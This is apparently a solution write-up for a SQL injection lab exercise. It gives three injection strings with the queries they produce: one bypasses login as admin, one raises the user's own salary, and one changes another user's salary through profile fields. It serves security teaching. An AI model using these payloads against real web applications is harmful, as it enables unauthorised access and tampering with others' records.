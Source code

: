 # SQL Injection solutions

## Task 1 - Logging without credentials

Writing in the `user` form the expression `admin';#`

```sql
SELECT * FROM credential WHERE Name='admin';
```
you will log in as administrator.

## Task 2 - Changing your salary

Writing in one of the edit profile boxes, e.g., Nickname, `',salary = '999999` the query will be:

```sql
UPDATE credential SET nickname='', salary='999999',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' 
    WHERE ID=$id;
```

## Task 3 - Changing Boby salary

Writing in one of the edit profile boxes `', salary=1 WHERE Name='Boby';#` the query will be:

```sql
UPDATE credential SET nickname='', salary=1 WHERE Name='Boby';
```

commenting the rest out.